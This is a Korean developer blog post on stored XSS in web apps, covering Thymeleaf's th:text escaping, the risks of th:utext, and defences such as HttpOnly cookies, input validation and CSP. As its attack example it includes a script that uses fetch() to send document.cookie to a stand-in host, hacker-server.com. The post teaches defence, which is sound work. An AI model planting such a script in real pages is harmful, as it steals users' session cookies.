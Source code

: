 ```yaml
---
title : "XSS(cross-site scripting) 공격"
date: "2025-08-18"
tags: ["Web"]
description : XSS 공격, 어떻게 막을 수 있을까?
---
```



## 서론

내가 만든 어플리케이션은 언제든지 해커로부터 공격을 받을 수 있다.
이러한 공격의 패턴과 방식들에는 여러가지가 있지만 그 중 하나는 XSS 공격이다.

XSS 는 쉽게 말하면 **해커가 자바스크립트 코드를 웹페이지에 심어 사용자의 정보를 탈취하는 종류의 공격**이다.
일반적으로 웹 어플리케이션들은 사용자로부터 데이터를 입력받게 되는데 이 데이터에 **해커가 자바스크립트 코드를 심어 놓을 수 있는 것이다.**

쉽게 생각해 게시판에 글을 쓴다고 생각해보자.
글 내용에 해커가 자바스크립트 코드를 심어 놓고 사용자들이 이 글을 보면서 동시에 자바스크립트 코드가 실행되어 해커가 원하는 것을 얻을 수 있게 된다.

물론 이런 공격은 많이 알려져 있기 때문에 대부분에 이와 같은 입력은 사전에 필터링을 통해 차단한다.
그럼에도 불구하고 이와 같은 공격에는 여러가지 우회 방법이 존재할 수 있기 때문에 튼튼하게 방어해 놓지 않는다면 위험이 늘 존재하는 것이다.

## Thymeleaf 에서의 XSS 테스트

Thymeleaf 에는 XSS 를 막아주는 필터링이 들어가있다.

```html
<!DOCTYPE HTML>
<html xmlns:th="http://www.thymeleaf.org">
<head>
  <title>Getting Started: Serving Web Content</title>
  <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body>
회원 리스트
<tr th:each="user : ${users}">
  <td th:text="${user.name}"></td>
</tr>

</body>
</html>

```

타임리프에서의 `th:text` 문법은 **HTML 이스케이프** 라는 과정을 자동으로 수행하기 때문에 XSS 공격을 방어할 수 있다.
사용자가 입력한 데이터에 포함될 수 있는 악의적인 스크립트 태그(`<script>` , `<img` 등)를 브라우저가 실행하지 못하도록
**의미 없는 일반 텍스트로 변환해주는 것이다.**

`th:text` 는 이런 위험을 막기 위해 <u> HTML 에서 특별한 의미를 갖는 문자들을 다른 문자로 치환(Escape) 한다.</u>
예를 들면
* & 는 "&amp"; 로 변환됩니다.
* " 는 "&quot"; 로 변환됩니다.
* ' 는 "&#39"; 로 변환됩니다.

따라서 공격자가 `<script>alert('XSS');</script>` 라는 값을 입력해도, `th:text` 를 사용하면
실제 렌더링된 HTML 소스는 다음과 같이 보인다.

```html
&lt;script&gt;alert('XSS');&lt;/script&gt;

```

브라우저는 &lt; 나 &gt; 를 HTML 태그의 시작과 끝으로 해석하지 않고, 단순히 '<' 와 '>' 라는 문자 그대로 화면에 보여준다.
결과적으로 스크립트는 실행되지 않고, 사용자는 안전하게 데이터를 볼 수 있다.


반면에 `th:text` 가 아닌 `th:utext` 와 같은 문법의 경우는 앞서 배운 이스케이프 과정을 의도적으로 생략한다.
따라서 개발자가 신뢰할 수 잇는 데이터라고 확신 하는 경우에만 제한적으로 사용해야한다.
사용자의 입력을 `th:utext` 로 출력하는 것은 매우 위험하며 보안적으로 취약하다.

<br>

## 근데 해커는 어떻게 내 사이트에 스크립트를 삽입하는 걸까?

해커는 사용자가 데이터를 입력할 수 있는 모든곳을 공격 경로로 삼는다.
웹사이트에서는 로그인 페이지 , 글쓰기 페이지 등 여러 입력창을 제공하는데 , 바로 이 부분들이 해커의 목표가 된다.

그리고 이러한 문제는 <u> 웹사이트가 사용자의 입력을 아무런 의심이나 필터링 없이 그대로 저장할 때 비로소 문제가 된다.</u>

### 공격 예시
1. 해커는 당신의 웹사이트에 방문하여 댓글 창이 있다는 것을 확인한다.

2. 해커는 다른 사용자의 쿠키(로그인 정보)를 훔쳐서 자신의 서버로 전송하는 간단한 스크립트를 작성한다.
```html
<script>
  // 현재 사용자의 쿠키를 가져와서 해커의 서버로 전송
  fetch('http://hacker-server.com/steal?cookie=' + document.cookie);
</script>
<p>이 글 정말 유익하네요!</p> 
```
3. 해커는 이 코드를 댓글 창에 입력하고 `등록` 버튼을 누른다.

4. 당신의 웹 서버는 이 댓글이 악의적인 스크립트 라는 것을 인지하지 못하고 , 데이터베이스에 `<script>..` 코드를 그대로 저장한다.

<br>

## 그렇다면 삽입된 코드는 어떻게 다른 사용자에게 사용되는가?

아까 저장된 이 악성 스크립트는 다른 선량한 사용자들을 공격한다.

다른 사용자가 악성 스크립트가 저장된 페이지를 요청하면, 서버는 스크립트를 정상적인 HTML의 일부인 것처럼 사용자에게 전송하고,
브라우저는 그대로 악성 스크립트가 삽입된 그 HTML 을 실행한다.

1. 아무것도 모르는 일반 사용자가 당신의 웹사이트에 방문하여 해커가 악성 댓글을 단 게시물을 클릭한다.

2. 사용자 A의 브라우저는 서버에게 이 게시물 페이지를 보여달라는 요청을 한다.

3. 서버는 데이터베이스에서 게시물 내용과 댓글들을 가져와 HTML 페이지를 만든다. **이때 해커가 심어둔 `<script..` 코드도 HTML 에 포함되는 것이다.**

4. 서버로부터 응답받은 HTML 페이지를 사용자 A의 브라우저가 렌더링 하고, HTML 태그들을 순서대로 읽다가 `script..` 태그를 만나면 , 이것이 웹사이트의 정상적인 기능이라고 생각하고 아무 의심 없이 스크립트를 실행한다.

5. 실행된 스크립트는 사용자 A의 브라우저에 저장된 쿠키 정보(로그인 세션 정보 등)을 몰래 가져와 해커의  서버로 전송한다.

6. 해커는 훔친 쿠키 정보를 이용해 사용자 A의 계정으로 로그인하여 개인 정보를 빼돌리거나 악의적인 행동을 한다.

<br>

## 보안 공격을 막을 수 있는 방법들은 뭘까?

**위와 같은 공격은, 쿠키에 HttpOnly 설정을 하면 막을 수 있다.**

쿠키에 HttpOnly 설정을 하게 되면, JavaScript 코드로 쿠키에 대한 정보를 얻을 수 있는 방법이 아예 사라진다.
즉, `document.cookie` 를 사용해도 쿠키가 조회되지 않는 것이다. 이를 활용해 XSS 공격으로부터 막을 수 있다.

**토큰을 LocalStorage 에 저장하면 XSS 에 취약해진다.**

토큰을 LocalStorage 에 저장하게 되면, JavaScript 코드 (localStorage.getItem()) 로 토큰에 대한 정보를 쉽게 얻을 수 있게 된다.
쿠키와는 다르게 LocalStorage 에는 HttpOnly 와 같은 설정이 없어서, XSS 를 막을 방법이 없다.
이 때문에, 토큰을 LocalStorage 가 아닌 Cookie 에 저장할 것을 권장한다.


**애초에 데이터가 저장될 때 비정상적인 데이터는 입력 값 검증을 통해 차단하는 것이 좋다**

예를들어 , 이름 필드에 `>` 나 `<`  와 같은 특수문자가 들어오지 못하도록 막는 것이다. 이는 XSS 뿐만 아니라 데이터 정합성을 지키는데도 중요하다.

**보안 헤더 설정**

백엔드는 API 응답시에 HTTP 헤더에 **CSP(콘텐츠 보안 정책)** 을 설정 할 수 있다.
이것은 브라우저에게 "이 사이트에서는 인라인 스크립트를 실행하지마!" 또는 "오직 `trusted-scripts.com`에서 온 스크립트만 실행해" 와 같이 매우 강력한 규칙을 전달하는 것이다.
프론트엔드에서 실수로 취약점이 발생해도, 브라우저 레벨에서 공격을 한번 더 막아준다.